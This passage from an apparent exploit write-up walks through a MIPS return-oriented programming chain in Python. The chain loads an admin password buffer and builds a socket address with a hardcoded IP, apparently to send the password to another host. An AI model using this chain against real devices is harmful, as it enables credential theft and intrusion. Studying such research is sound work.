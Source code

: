 
Notice how we needed the actual value of _sockfd_ to be in _$a0_ and not its address, we used the **lw $v0, ($v0)** gadget to achieve this, and then moved it into _$a0_.

We can then set _$a1_ to be the address of the password buffer, and _$a3_ to 0 as we don't need any flags set:

```
-python
# Move admin pwd buffer into a1
# 0x0011e568: lw $a1, ($sp); lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += p32(pwd_buffer) # a1 (address of pwd)
chain += b'b' * 0x8
chain += p32(0xbb6e4 + base_address) # ra

# Set a3 to be zero (flags)
# 0x000bb6e4: move $a3, $zero; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += b'b' * 0xc
chain += p32(0x57864 + base_address) # ra
```

With these arguments set, we can finally construct the _sockaddr_in_ struct with the following gadgets - the comments do a pretty good job explaining what is happening. We are basically copying the memory address with the desired values (_0x0_ _0x2_) I mentioned earlier, and appending the IP address of the target:

```
-python
# s1 has our sockaddr address, load address of afinet into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(harcdoded_afinet) # v0
chain += b'b' * 8
chain += p32(0x1a46dc + base_address) # ra

# Load hardcoded afinet stuff into v0 (currently has the address)
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x13e134 + base_address) # ra

# Store the afinet stuff at our sockaddr struct
# 0x0013e134: sw $v0, ($s1); lw $ra, 0x14($sp); lw $s3, 0x10($sp); lw $s2, 0xc($sp); lw $s1, 8($sp); lw $s0, 4($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += b'b' * 4
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr + 4) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x57864 + base_address) # ra

# Load the IP address into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += struct.pack('>BBBB', 192, 168, 188, 2) # v0, IP
chain += b'b' * 8
chain += p32(0x13e134 + base_address) # ra

# Store the loaded IP address at sockaddr + 4
# 0x0013e134: sw $v0, ($s1); lw $ra, 0x14($sp); lw $s3, 0x10($sp); lw $s2, 0xc($sp); lw $s1, 8($sp); lw $s0, 4($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += b'b' * 4
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x57864 + base_address) # ra
```
